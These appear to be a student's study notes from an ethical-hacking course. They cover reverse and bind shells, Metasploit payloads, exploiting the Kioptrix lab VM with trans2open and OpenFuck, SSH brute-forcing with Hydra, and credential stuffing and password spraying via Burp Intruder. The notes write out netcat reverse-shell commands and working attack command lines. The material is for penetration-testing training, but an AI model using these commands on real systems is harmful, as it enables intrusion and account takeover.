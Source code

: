 # Exploitation Basics

Different types of shells we are going to see:

**Reverse Shell** - most common (95% of the time..)

Reverse >> The victim connects to us instead of us to them
Shell >> Access to a machine 
Target is connecting, attack box is listening 

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/eb1efacf473c4430976a773bef21e962.png?raw=true)

We open our 4444 port and it is listening. After we fire off an exploit, the target will connect to the same port and execute a /bin/sh shell
> i.e. all we do with a reverse shell is listen. Target connects to us.

**Bind Shell** (5% of the time..)
We open up a port on the target machine, then we connect to it

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/4c932f693dcb4520a5b13a0fee6c27f3.png?raw=true)

We fire off an exploit, the exploit opens up a port, then it is listening for us to connect. When we connect on that port and get the shell
> i.e. we connect to the target

> least used, most typically on an external assessment 
e.g. when we have to bypass some sort of firewall

## Netcat

### Reverse Shell - victim connects to us
On 'attacker'
```
nc -nvlp 4444
```
`listening on [any] 4444...`

On 'victim'
```
nc 10.0.2.4 4444 -e /bin/bash
```

On 'attacker'
`connect to [IP] from (UNKNOWN) [IP] port`
> can now run commands

### Bind Shell - we connect to the victim
On 'victim'
```
nc -nvlp 4444 -e /bin/bash
```
> i.e. listening and at the same time offering the shell
`listening on [any] 4444...`

On 'attacker'
```
nc 10.0.2.4 4444
```
> We get shell


## Staged versus non-staged payloads

**Payload** - what we are going to run as an exploit. I.e. when we run an exploit on a target, that is called a payload. We send it to attempt to get a shell on the machine

Two main types of payloads:

**Non-staged**
- Sends exploit shellcode all at once
- Larger in size and won't always work
> Example: windows/meterpreter_reverse_tcp

**Staged**
- Sends payload in stages
- Can be less stable
> Example: windows/meterpreter/reverse_tcp

the meterpreter/ identifies it is a staged payload i.e. meterpreter is stage 1, reverse_tcp stage 2 etc. while meterpreter_reverse_tcp is all one stage

If you have a payload that does not work or fails, can try the other type of payload

***
***
We are going to try and exploit Kioptrix with the Samba 2.2 vulnerability 'trans2open' exploit
(`# searchsploit Samba 2.2`)

Run metasploit > `search trans2open`
We know victim is running RedHat, so we will choose the 'Linux' module

```
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
```
`msf> use 1`
`msf> options` --> specify host and port (set rhosts)
Can also `msf> show targets` (not necessary in this case but sometimes we have attack choices)
`msf> run` OR `msf> exploit`

If it is not working, ,and we show options again, now metasploit will show us payload options

First, we can see that we are running a staged payload
Good idea to change LPORT 4444 as it is the default meterpreter port and easily detected
	
`set payload linux/x86/...` hit TAB
We see a couple staged meterpreter payloads.
We find a couple 'shell' options and finally some that are unstaged. We will try the shell_reverse_tcp
Check payload in options and then run again

We got root with metasploit!

## Manual exploitation

Try Github OpenLuck exploit
After installing it, compile it
```
gcc -o open OpenFuck.c -lcrypto
```

```
 Usage: ./open target box [port] [-c N]
```

we had Apache 1.3.20 and RedHat Linux so look for that
Here: 0x6b

Syntax:
```shell
./open 0x6b 10.0.2.15 -c 40
```
We get root shell - Cool

***

If we see **SSH** we will try to Brute Force it
1. To test password strenghth
2. See if we can get in with a weak or default password
3. Test how well the Blue team performs
	- Do they catch us, do they see we are trying to brute force. Should alert! Be loud! Hope to be caught.

Helps to fine tune Blue Team

We can test that using Brute Force as we saw the open SSH port

Using **Hydra**

```shell
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.15:22 -t 4 -V
```
Using 4 threads/attempts, -V for verbose, -P for the password list
> can Ctrl-C and the session will exit but with the option to resume it. A file is written wchich we can run with Hydra -R (for repeat)

Can also try using **Metasploit**
`>search ssh`
Found `auxiliary/scanner/ssh/ssh_login`
```shell
msf> set username root
msf> set rhosts 10.0.2.15
msf> set verbose true
msf> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf> run
```
***

## Credential Stuffing
Injecting breached account credentials in hopes of account takeover

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/a1c4a0d869d44e63b3efb7c809bb1379.png?raw=true)

Taking found credentials and 'spray and pray', throwing them at a website

Install standard FoxyProxy 
Options > Name it Burp Suite > HTTP
Give it IP 127.0.0.1, port 8080, Save
Can now turn it on and then also open BurpSuite

Instead of having to do the whole 'Preferences' > Advanced options etc. can now just turn this on and off

We go to the tesla sign in page and put an email and a password. Turn intercept ON and click 'Sign in'
Go to line from Burp results and 'Send to Intruder'
highlight email and password and click 'Add' ('Clear' everything else before that)

Specify attack type: "Pitchfork"
Go to Payloads: take list of users and copy paste it
On second list, take passwords and paste it

Once the attack is initiate, it will try all the combinations of the usernames and passwords we provided, at the "variables" we specified. List 1 and 2 will only try usernames and passwords line by line in order 1-2, 1-2 so on, not all with all. "Start Attack" etc.

Check status code number, check response to see whether any results where successful. There is a grep that we can match what kind of output to leave out.

If we want to do **password spraying** it is using a list of username without a known password. This time, clear password variable and keep only email/username.

Gather and enter list of all usernames found, and we can add a password like password=XYZ

BUT make sure we don't log out any users. Need to know the log out policy. Do 1-2 at a time, and every now and then (so it can reset the amount of tries)

e.g. password=Password123!, also Attack="Sniper"
In payloads, only the emails have been kept
++ always check default credentials

If we are doing Brute Force and Scanning activities, make sure to note down if it alerted anyone oor if anyone noticed / detected it

